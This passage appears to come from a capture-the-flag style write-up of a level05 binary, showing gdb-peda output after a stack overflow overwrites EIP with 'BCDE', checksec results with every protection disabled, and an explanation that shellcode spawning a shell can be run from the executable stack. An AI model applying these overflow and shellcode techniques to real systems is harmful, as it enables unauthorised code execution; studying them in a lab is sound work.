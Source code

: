 At the top of the stack, it has our string "BCDE".

```sh
gdb-peda$ si
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0x7fffff6f 
EDX: 0xb7fc3870 --> 0x0 
ESI: 0x2 
EDI: 0xb7fc2000 --> 0x1b3db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffffbf0 --> 0x0 
EIP: 0x45444342 ('BCDE')
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x45444342
[------------------------------------stack-------------------------------------]
0000| 0xbffffbf0 --> 0x0 
0004| 0xbffffbf4 --> 0xbffffc84 --> 0xbffffdae ("/levels/level05")
0008| 0xbffffbf8 --> 0xbffffc90 --> 0xbffffe4f ("XDG_SESSION_ID=124327")
0012| 0xbffffbfc --> 0x0 
0016| 0xbffffc00 --> 0x0 
0020| 0xbffffc04 --> 0x0 
0024| 0xbffffc08 --> 0xb7fc2000 --> 0x1b3db0 
0028| 0xbffffc0c --> 0xb7fffc0c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x45444342 in ?? ()
```

When we step one instruction, we realized that the EIP contains 0x45444342 which is 'EDCB' in ascii.
The program crash because this is an invalid address.
 
## Binary protections

```sh
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```
In this level, all the protections are turn off. 
One thing of interest is NX. 
NX is a protection mechanism by setting the stack as non-executable.

With this OFF, we can write our own machines language bytes that spawn a command shell on the stack, and make `eip` points to our introduced instructions.
These machine language are often known as shellcode.
